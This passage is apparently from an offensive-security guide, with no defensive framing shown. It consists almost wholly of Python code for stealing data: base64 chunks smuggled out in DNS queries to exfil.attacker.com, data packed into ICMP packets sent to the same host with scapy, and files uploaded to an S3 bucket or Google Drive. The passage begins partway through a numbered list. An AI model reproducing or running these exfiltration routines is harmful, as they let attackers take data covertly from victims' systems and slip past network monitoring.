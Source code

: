 ```python
# Exfiltrate via DNS queries
import dns.resolver
import base64

def dns_exfiltrate(data):
    # Encode data
    encoded = base64.b64encode(data).decode()
    
    # Split into chunks (DNS label limit: 63 chars)
    chunks = [encoded[i:i+60] for i in range(0, len(encoded), 60)]
    
    for i, chunk in enumerate(chunks):
        # Create DNS query
        domain = f"{chunk}.{i}.exfil.attacker.com"
        try:
            dns.resolver.resolve(domain, 'A')
        except:
            pass
        time.sleep(1)
```

#### 3. ICMP Exfiltration

```python
# Exfiltrate via ICMP packets
from scapy.all import *

def icmp_exfiltrate(data):
    # Split data into chunks
    chunk_size = 64
    chunks = [data[i:i+chunk_size] for i in range(0, len(data), chunk_size)]
    
    for i, chunk in enumerate(chunks):
        # Send ICMP packet with data
        packet = IP(dst="exfil.attacker.com")/ICMP()/Raw(load=chunk)
        send(packet)
        time.sleep(0.1)
```

#### 4. Cloud Storage Exfiltration

```python
# Exfiltrate to cloud storage
import boto3

# AWS S3
s3 = boto3.client('s3',
    aws_access_key_id='ACCESS_KEY',
    aws_secret_access_key='SECRET_KEY'
)

def s3_exfiltrate(filepath):
    s3.upload_file(filepath, 'exfil-bucket', os.path.basename(filepath))

# Google Drive
from google.oauth2 import service_account
from googleapiclient.discovery import build

def gdrive_exfiltrate(filepath):
    creds = service_account.Credentials.from_service_account_file('creds.json')
    service = build('drive', 'v3', credentials=creds)
    
    file_metadata = {'name': os.path.basename(filepath)}
    media = MediaFileUpload(filepath)
    service.files().create(body=file_metadata, media_body=media).execute()
```